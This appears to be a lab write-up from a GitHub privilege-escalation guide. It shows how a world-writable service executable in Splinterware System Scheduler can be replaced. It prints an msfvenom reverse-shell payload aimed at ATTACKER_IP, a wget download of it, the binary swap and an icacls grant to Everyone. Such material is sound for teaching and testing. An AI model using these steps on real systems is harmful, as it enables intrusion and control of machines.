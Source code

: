 To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using ```sc``` :

```
C:\> sc qc WindowsScheduler
```

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/47158abf-5ab3-4827-bfd6-94c985f9f169">
</p>

We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in ```C:\Progra~2\System~1\WService.exe``` . We then proceed to check the permissions on the executable:

```
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
```

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/b0796d9d-8ad7-44af-acb6-4bef7adc234e">
</p>

And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```

```
python3 -m http.server
```

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/93db49b7-3278-4922-9027-be176a02e065">
</p>

We can then pull the payload from Powershell with the following command:

```
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```


        

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:

```
C:\> cd C:\PROGRA~2\SYSTEM~1\
```
```
C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
```
```
C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
```
```
C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
```
